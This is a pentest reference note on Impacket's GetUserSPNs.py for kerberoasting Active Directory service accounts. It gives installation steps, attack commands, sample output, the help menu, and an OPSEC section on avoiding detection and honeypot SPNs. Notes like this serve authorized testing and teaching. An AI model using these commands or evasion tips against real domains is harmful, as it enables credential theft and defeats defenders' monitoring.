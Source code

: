 ```yaml
---
aliases:
  - impacket-GetUserSPNs
tags:
primary categories:
  - "[[Red Team]]"
  - "[[Penetration Test]]"
secondary categories:
  - "[[Credential Harvesting]]"
  - "[[Kerberoasting]]"
  - "[[Post-Exploitation]]"
  - "[[Active Directory]]"
type: Tool
---
```

# [[GetUserSPNs.py]]

***

## Overview

`GetUserSPNs.py`[^1] is a tool from the Impacket Python module collection that automates [kerberoasting](https://attack.mitre.org/techniques/T1558/003/) attacks against user accounts associated with [service principal names (SPNs)](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names) in [Active Directory (AD)](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domain-services-overview)[^2][^3]. If the service account password used to encrypt the returned [ticket-granting service (TGS)](https://csrc.nist.gov/glossary/term/tgs) ticket is sufficiently weak, an attacker can recover its plaintext password by cracking the TGS hash output from `GetUserSPNs.py`.

## Requirements

* [ ] Attacker is on a \*nix-like machine with access to the target AD network
* [ ] Attacker has valid AD credentials
* [ ] Target user(s) are vulnerable to kerberoasting
	* [ ] Target user object(s) have a non-null  `servicePrincipalName` attribute

## Installation/Compilation

Before installing `GetUserSPNs.py`, ensure Python is installed:
```
# Debian/Ubuntu
sudo apt install python3

# Fedora
sudo dnf install python3
```

The easiest way to install `GetUserSPNs.py` is by installing the Impacket library via `pip`:
```
pip install impacket
```

Alternatively, clone the Impacket repository and install it locally:
```
git clone https://github.com/fortra/impacket.git
cd impacket
pip install .
```

On Kali Linux[^4], you can install the `impacket-scripts`[^5] package. This makes the tools accessible in your `$PATH`, prefixed with `impacket-`:
```
sudo apt install impacket-scripts

impacket-GetUserSPNs -h
```

## Usage

Kerberoast all vulnerable users in a domain (you will be prompted for a password):
```
GetUserSPNs.py -request -dc-ip <dc-ipv4-address> <domain.full>/<user>
```

Kerberoast all vulnerable users and dump the output to a file:
```
GetUserSPNs.py -request -dc-ip <dc-ipv4-address> -outputfile <filename> <domain.full>/<user>
```

After retrieving a TGS ticket, you can attempt to crack the service account password using Hashcat[^6] or John the Ripper[^7].

## Operational Security (OPSEC)

Requesting TGS tickets for every SPN in a domain will likely raise alerts, especially if one or more SPNs are positioned as [honeypots](https://csrc.nist.gov/glossary/term/honeypot), accounts intentionally configured to detect kerberoasting attempts[^8]. These honeypot SPNs often appear legitimate but are closely monitored.

```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
Password:
ServicePrincipalName          Name         MemberOf  PasswordLastSet            LastLogon  Delegation
----------------------------  -----------  --------  -------------------------  ---------  ---------
MSSQLSvc/sql.domain.com:1433  mssql_svc              XXXX-XX-XX XX:XX:XX.XXXXX  <never>
HoneySvc/fake.domain.com      honey_svc              XXXX-XX-XX XX:XX:XX.XXXXX  <never>
```

If possible, ensure the requesting account appears plausible to a defender. For example, a sales employee requesting a TGS for a Microsoft SQL Server[^9] service is suspicious; using an IT or data steward account would appear more legitimate.

Additionally, avoid requesting all SPNs in bulk. Multiple SPN requests in a short window will appear as anomalous on a defender's radar, possibly leading to detection[^10]. Instead, identify individual accounts vulnerable to kerberoasting using BloodHound[^11] or a similar tool, then request TGS tickets for a single target:
```
GetUserSPNs.py -request-user <target-user> -dc-ip <dc-ipv4-address> -outputfile <filename> <domain.full>/<user>
```

```ad-todo
Add discussion about encryption types, the `(servicePrincipalName=*)` LDAP query, and ticket request parameters.
```

## Under-the-Hood

```ad-todo
Reverse engineer `GetUserSPNs.py` source code, analyze ticket exchanges in [Wireshark](https://www.wireshark.org/), and document detailed function flow.
```

## Help Menu

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

usage: GetUserSPNs.py [-h] [-target-domain TARGET_DOMAIN] [-no-preauth NO_PREAUTH] [-stealth] [-usersfile USERSFILE] [-request] [-request-user username] [-save] [-outputfile OUTPUTFILE] [-ts] [-debug] [-hashes LMHASH:NTHASH] [-no-pass] [-k]
                      [-aesKey hex key] [-dc-ip ip address] [-dc-host hostname]
                      target

Queries target domain for SPNs that are running under a user account

positional arguments:
  target                domain[/username[:password]]

options:
  -h, --help            show this help message and exit
  -target-domain TARGET_DOMAIN
                        Domain to query/request if different than the domain of the user. Allows for Kerberoasting across trusts.
  -no-preauth NO_PREAUTH
                        account that does not require preauth, to obtain Service Ticket through the AS
  -stealth              Removes the (servicePrincipalName=*) filter from the LDAP query for added stealth. May cause huge memory consumption / errors on large domains.
  -usersfile USERSFILE  File with user per line to test
  -request              Requests TGS for users and output them in JtR/hashcat format (default False)
  -request-user username
                        Requests TGS for the SPN associated to the user specified (just the username, no domain needed)
  -save                 Saves TGS requested to disk. Format is <username>.ccache. Auto selects -request
  -outputfile OUTPUTFILE
                        Output filename to write ciphers in JtR/hashcat format. Auto selects -request
  -ts                   Adds timestamp to every logging output.
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the target parameter. Ignoredif -target-domain is specified.
  -dc-host hostname     Hostname of the domain controller to use. If ommited, the domain part (FQDN) specified in the account parameter will be used
```

***

## Resources

| Hyperlink                                                                                               | Info                                   |
| ------------------------------------------------------------------------------------------------------- | -------------------------------------- |
| [GetUserSPNs.py, Fortra](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)        | GitHub repository for `GetUserSPNs.pu` |
| [Steal or Forge Kerberos Tickets: Kerberoasting, MITRE](https://attack.mitre.org/techniques/T1558/003/) | MITRE ATT&CK entry for "Kerberoasting" |

[^1]: GetUserSPNs.py, Fortra, https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py
[^2]: Attacking Microsoft Kerberos Kicking the Guard Dog of Hades, Tim Medin, https://youtu.be/PUyhlN-E5MU
[^3]: Kerberoasting Revisited, Will Schroeder, https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1
[^4]: Kali Linux, Offsec, https://www.kali.org/
[^5]: impacket-scripts, Kali Linux, https://www.kali.org/tools/impacket-scripts/ 
[^6]: Hashcat, Hashcat, https://hashcat.net/hashcat/
[^7]: John the Ripper, Openwall, https://www.openwall.com/john/ 
[^8]: Detecting Kerberoasting Activity Part 2 – Creating a Kerberoast Service Account Honeypot, Sean Metcalf, https://adsecurity.org/?p=3513
[^9]: Microsoft SQL Server, Microsoft, https://www.microsoft.com/en-us/sql-server
[^10]: Windows Event ID 4769 Kerberos Service Ticket Request, Splunk, https://research.splunk.com/endpoint/eb3e6702-8936-11ec-98fe-acde48001122/
[^11]: BloodHound, SpecterOps, https://github.com/SpecterOps/BloodHound

***

*Created Date*: <%+tp.file.creation_date("MMMM Do YYYY (HH:mm a)")%>  
*Last Modified Date*: <%+tp.file.last_modified_date("MMMM Do YYYY (HH:mm a)")%>
